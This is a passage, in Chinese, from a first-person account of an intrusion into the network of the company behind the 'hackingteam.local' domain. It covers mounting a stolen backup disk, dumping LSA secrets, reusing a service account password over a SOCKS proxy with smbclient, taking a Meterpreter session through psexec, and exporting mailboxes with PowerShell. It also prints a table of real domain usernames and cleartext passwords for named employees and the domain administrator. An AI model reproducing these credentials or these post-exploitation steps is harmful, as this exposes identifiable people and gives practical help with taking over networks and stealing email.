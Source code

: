 现在，在`/mnt/exchange/WindowsImageBackup/EXCHANGE/Backup 2014-10-14 172311` 我们可以发现虚拟机的硬盘，然后 就可以挂载上去了：

```sh
vdfuse -r -t VHD -f f0f78089-d28a-11e2-a92c-005056996a44.vhd /mnt/vhd-disk/
mount -o loop /mnt/vhd-disk/Partition1 /mnt/part1
```

最后，我们就可以在/mnt/part1看到所有老的邮件交换服务器上的东西了。

### 0x08 从安全备份到域管理员

其实我最感兴趣的还是想在安全备份文件里面找到一些常用的密码或者hash以便于进入物理机。我使用pwdump, cachedump 和lsadump去寻找可能的密码，最后lsdadump发现了一个bes管理服务器的账户的密码:

```
_SC_BlackBerry MDS Connection Service
0000   16 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   62 00 65 00 73 00 33 00 32 00 36 00 37 00 38 00    b.e.s.3.2.6.7.8.
0020   21 00 21 00 21 00 00 00 00 00 00 00 00 00 00 00    !.!.!...........
```

我通过proxychains加上嵌入式机器上的socks代理，和smb客户端去尝试这个密码：
`proxychains smbclient '//192.168.100.51/c$' -U 'hackingteam.local/besadmin%bes32678!!!'   `             
成功了！密码仍然有效，而且是本地管理员。我用代理和metasploit的psexec__psh 来获取一个meterpreter session。我在机器上抓取到了他的其他密码，包括域管理员的密码。

```
HACKINGTEAM  BESAdmin       bes32678!!!
HACKINGTEAM  Administrator  uu8dd8ndd12!
HACKINGTEAM  c.pozzi        P4ssword      <---- look! the sysadmin!
HACKINGTEAM  m.romeo        ioLK/(90
HACKINGTEAM  l.guerra       4luc@=.=
HACKINGTEAM  d.martinez     W4tudul3sp
HACKINGTEAM  g.russo        GCBr0s0705!
HACKINGTEAM  a.scarafile    Cd4432996111
HACKINGTEAM  r.viscardi     Ht2015!
HACKINGTEAM  a.mino         A!e$$andra
HACKINGTEAM  m.bettini      Ettore&Bella0314
HACKINGTEAM  m.luppi        Blackou7
HACKINGTEAM  s.gallucci     1S9i8m4o!
HACKINGTEAM  d.milan        set!dob66
HACKINGTEAM  w.furlan       Blu3.B3rry!
HACKINGTEAM  d.romualdi     Rd13136f@#
HACKINGTEAM  l.invernizzi   L0r3nz0123!
HACKINGTEAM  e.ciceri       2O2571&2E
HACKINGTEAM  e.rabe         erab@4HT!
```

### 0x09 下载邮件
现在我有了域管理员密码，就可以进入到业务核心——邮件中了。之后做的每一步操作都有可能随身被发现，以防万一，先下载邮件，这里 powershell起了很大的作用。我发现了处理日期的一个bug。在得到邮件后，我又花了两周时间去获得源码和其他东西，之后又把新的邮件下载了下 来。服务器是意大利的，时间的格式是：日/月/年，我用：

```
-ContentFilter {(Received -ge '05/06/2015') -or (Sent -ge '05/06/2015')}
```

这个语法去搜索邮件服务器并且下载新的邮件，问题是获得了”日期错误：day不能大于12“的结果，因为欧洲时间中月份通常在第一位，月份不能大于12,。看来微软的工程师们只在他们自己的时区测试了他们的软件。
